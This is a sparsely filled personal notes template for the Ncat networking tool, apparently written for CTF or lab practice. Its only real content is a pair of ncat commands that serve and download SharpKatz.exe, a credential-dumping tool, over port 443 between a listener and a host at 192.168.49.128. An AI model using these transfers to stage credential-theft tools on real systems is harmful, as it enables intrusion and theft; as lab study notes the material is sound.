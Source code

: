 # Ncat

_What this tool does and when I reach for it_

## Primary Use Cases

Main things I use this tool for

## Command Patterns

### Category 1

Sending a file
```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
^send-file-to-listener

Receiving a file
```bash
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```
^receive-file-from-listener

## Personal Notes

- Things I learned from experience
- Common mistakes I made
- Environment-specific quirks

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #ncat
SORT file.ctime DESC
LIMIT 5
```

## Quick Links

- [[Primary-Technique]] - Main technique this supports
- [[Secondary-Technique]] - Other technique this supports

#ncat #tool